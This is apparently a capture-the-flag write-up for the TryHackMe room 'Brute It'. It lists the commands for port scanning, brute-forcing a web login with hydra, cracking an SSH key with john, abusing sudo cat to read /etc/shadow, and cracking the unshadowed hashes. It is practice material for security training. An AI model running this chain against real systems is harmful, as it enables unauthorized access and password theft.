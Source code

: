 # Brute It

**Room Link:** [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa 
ssh -i id_rsa john@$VICTIM
pass: rockinroll
```



john can run cat as root, we can just use this to read root.txt but I decided to read the shadow file which I can't do from johns account, then send shadow and passwd files back to Kali to crack.

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
LFILE=/etc/shadow
sudo cat "$LFILE"
```

**Kali**

```
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

<figure><img src="../../.gitbook/assets/image (109).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>











